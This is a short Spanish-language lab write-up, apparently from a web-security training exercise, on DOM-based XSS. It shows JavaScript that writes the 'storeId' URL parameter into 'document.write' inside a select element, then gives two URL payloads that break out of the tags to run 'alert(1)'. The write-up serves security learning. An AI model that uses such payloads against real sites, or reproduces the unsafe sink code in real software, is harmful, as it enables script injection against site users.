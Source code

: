 
# DOM XSS in `document.write` sink using source `location.search` inside a select element

Revisando tenemos el siguiente codigo que se ejecuta para representar las opciones de `stores`:

![20240807101341.png](20240807101341.png)

```c
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
	document.write('<option selected>'+store+'</option>');
    }
 for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
        }
    document.write('<option>'+stores[i]+'</option>');
    }
document.write('</select>');
```

Testeando podemos agregar `&storeId=test` y agregaremos nuestro campo ingresado a la caja de opciones.

![20240807103643.png](20240807103643.png)

Vemos que nuestro input se representa en:

```c
<option selected="">test</option>
```

Tendremos en cuenta las etiquitas `select`.

![20240807105321.png](20240807105321.png)

Entonces cerramos esa etiqueta y ponemos la nuestra

```c
/product?productId=14&storeId="></select><script>alert(1)</script>
/product?productId=14&storeId=</option><script>alert(1)</script>//
```

![20240807105543.png](20240807105543.png)


